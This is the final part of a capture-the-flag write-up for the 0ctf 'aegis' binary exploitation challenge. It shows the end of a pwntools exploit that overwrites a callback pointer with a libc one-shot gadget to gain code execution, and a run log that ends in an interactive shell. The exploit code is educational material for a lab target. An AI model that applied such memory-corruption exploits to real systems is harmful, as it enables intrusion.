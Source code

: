 ```

# Calculate needed addresses
errorFunc = pieBase + 0xfb0888
oneShot = libcBase + 0x10a38c

# Do the callback function write using oneshot gadget, and get rce
updateNote(1, p64(errorFunc)[:7], 0x0)
updateNote(0, p8(0), oneShot)


target.interactive()
```

When we run it:
```
$ python exploit.py 
[+] Starting local process './aegis': pid 4163
[*] '/Hackery/0ctf/aegis/aegis'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
    ASAN:     Enabled
    UBSAN:    Enabled

. . .

[*] Switching to interactive mode
aegis.c:144:5: runtime error: control flow integrity check for type 'int (int)' failed during indirect function call
0xbe00000000000000: note: (unknown) defined here
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior aegis.c:144:5 in 
$ w
 00:39:17 up 52 min,  1 user,  load average: 0.28, 0.08, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               23:46   ?xdm?  57.44s  0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
aegis  exploit.py  libc-2.27.so  old.py  solv.py
```

